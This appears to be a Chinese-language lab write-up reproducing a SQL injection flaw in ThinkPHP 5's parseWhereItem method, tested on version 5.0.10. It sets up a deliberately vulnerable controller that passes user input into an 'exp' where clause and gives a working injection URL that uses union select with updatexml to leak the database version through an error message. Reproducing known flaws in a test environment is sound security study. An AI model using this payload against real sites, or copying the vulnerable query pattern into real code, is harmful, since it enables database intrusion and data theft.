

### 漏洞概述

本次漏洞存在于 Mysql 类的 parseWhereItem 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生。漏洞影响版本： ThinkPHP5全版本 。

### 漏洞环境

thinkphp 5.0.10

### 复现流程

将 application/index/controller/Index.php 文件代码设置如下：

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username');
        $result = db('users')->where('username','exp',$username)->select();
        return 'select success';
    }
}
```

在 config/database.php 文件中配置数据库相关信息，并开启 config/app.php 中的 app_debug 和 app_trace 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'axin');
```

访问 http://localhost:8000/index/index/index?username=) union select updatexml(1,concat(0x7,@@version,0x7e),1)# 链接，即可触发 SQL注入漏洞 。（没开启 app_debug 是无法看到 SQL 报错信息的）




